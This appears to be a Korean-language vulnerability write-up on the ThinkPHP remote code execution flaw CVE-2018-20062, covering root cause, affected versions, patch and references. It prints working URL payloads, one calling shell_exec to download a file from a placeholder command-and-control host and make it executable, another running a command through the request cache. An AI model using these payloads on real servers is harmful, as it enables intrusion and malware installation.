 ﻿ThinkPHP RCE 취약점
==========
Information
-----
* CVE-2018-20062
* 해당 소프트웨어 : ThinkPHP
* 해당 버젼 : Under ThinkPHP 5.0.23 or 5.1.31
*  취약점 유형 : RCE

Description
---

해당 취약점은 ThinkPHP를 사용하는 웹 프레임워크에서의 RCE 취약점으로, 
index.php 페이지의 URL을 통해 전달받은 값을 검증 없이 파싱하여 응용프로그램 클래스를 직접 호출하여 원격 코드 명령을 실행 가능하게 하는 취약점이다. 

Root Cause
---
### ThinkPHP
ThinkPHP는 중국 기업 TopThink에서 개발한 php 기반의 웹 어플리케이션 프레임워크다. Apache2 기반으로 만들어졌으며, URL 쿼리 매개 변수를 분석하여 모듈과 컨트롤러를 검색한다. 

현재 쇼단 검색으로 3만 5천 개 이상의 활성 배치가 표시되고 있다. 

### Vulnerability
ThinkPHP는 URL 쿼리 parameter를 파싱하여 모듈이나 컨트롤러, 함수등을 검색하는데 이때 
URL에서 컨트롤러 클래스명의 유효성이 검증되지 않아 RCE 취약점이 발생한다. 

- Payload example 
1. 컨트롤러 클래스 app 을 통한 원격명령실행 
/index.php?s=/index\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec
&vars[1][]=cd%20/tmp;wget%20http://(C&C_IP)//(실행시킬 파일);
chmod(권한 및 실행시킬 파일)

    + ThinkPHP의 경우 '/' 기준으로 파싱을 진행하므로 '\\'를 이용할 경우 think 내에 컨트롤러 클래스 app을 생성하여 invokefunction 메소드를 통해 RCE 가능 

2. 컨트롤러 클래스 request를 통한 RCE
?s=index/\think\request/cache&key=1|id

	+ request 컨트롤러 클래스를 통해서 RCE  가능 


Patch
---
기본적으로 5.0.23 or 5.1.31로 업데이트 하면 해결되며 해당 패치들을 통해 컨트롤러 이름을 확인하는 정규식이 추가되었다. 

POC
---
공개된 PoC는 아래와 같다. 
![이미지](https://github.com/develacker/dayone/blob/master/linux/ThinkPHP/poc1.png)
![이미지](https://github.com/develacker/dayone/blob/master/linux/ThinkPHP/poc2.png)
![이미지](https://github.com/develacker/dayone/blob/master/linux/ThinkPHP/poc3.png)
![이미지](https://github.com/develacker/dayone/blob/master/linux/ThinkPHP/poc4.png)

References
---
[1] [PoC - NS-Sp4ce](https://github.com/NS-Sp4ce/thinkphp5.XRce/blob/master/thinkphp5.0rce.py)

[2] [THNKPHP REMOTE CODE EXECUTION BUG IS ACTIVELY BEING EXPLOITED](https://securitynews.sonicwall.com/xmlpost/thinkphp-remote-code-execution-rce-bug-is-actively-being-exploited/)

[3] [ThinkPHP 5.x Remote Code Execution Vulnerability](https://devcentral.f5.com/s/articles/thinkphp-5x-remote-code-execution-vulnerability-32902)



